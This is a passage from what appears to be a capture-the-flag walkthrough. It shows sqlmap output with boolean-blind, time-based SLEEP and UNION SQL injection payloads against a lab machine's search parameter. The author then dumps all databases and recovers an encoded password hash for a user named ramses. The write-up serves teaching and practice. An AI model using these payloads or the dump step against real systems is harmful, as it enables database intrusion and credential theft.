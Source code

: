 ```bash
---
Parameter: usrtosearch (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: usrtosearch=-4968" OR 5589=5589#

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (SELECT - comment)
    Payload: usrtosearch=x" AND (SELECT * FROM (SELECT(SLEEP(5)))UcAb)#

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: usrtosearch=x" UNION ALL SELECT CONCAT(0x716a6a6a71,0x5145485546617555536c,0x7171716b71),NULL,NULL#
---
[17:23:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.10
back-end DBMS: MySQL 5.0.12
[17:23:42] [INFO] fetched data logged to text files under '/root/.sqlmap/output/192.168.61.147'

[*] shutting down at 17:23:42
```

Success! We could start enumerating the available databases, tables, etc. However, why not just dump everything? I append the "--dump-all" switch and [tee](http://linux.101hacks.com/unix/tee-command-examples/) the output. After the dump I do a search for ramses, and come across this. 

```bash
Database: seth
Table: users
[2 entries]
+----+---------------------------------------------+--------+------------+
| id | pass                                        | user   | position   |
+----+---------------------------------------------+--------+------------+
| 1  | YzZkNmJkN2ViZjgwNmY0M2M3NmFjYzM2ODE3MDNiODE | ramses | <blank>    |
| 2  | --not allowed--                             | isis   | employee   |
+----+---------------------------------------------+--------+------------+

[17:24:09] [INFO] table 'seth.users' dumped to CSV file '/root/.sqlmap/output/192.168.61.147/dump/seth/users.csv'
```

There's a hash of some sort for ramses, but not for isis. It doesn't quite look like md5, sha256 perhaps? I don't know. For starters, I pipe it into Burp Suite Decoder and try out the options. After using the Base64 option I get a hash that looks more like a md5. Given it's most likely to be a password of some sort, on an Debian box, most likey md5. Hopefully it is. 
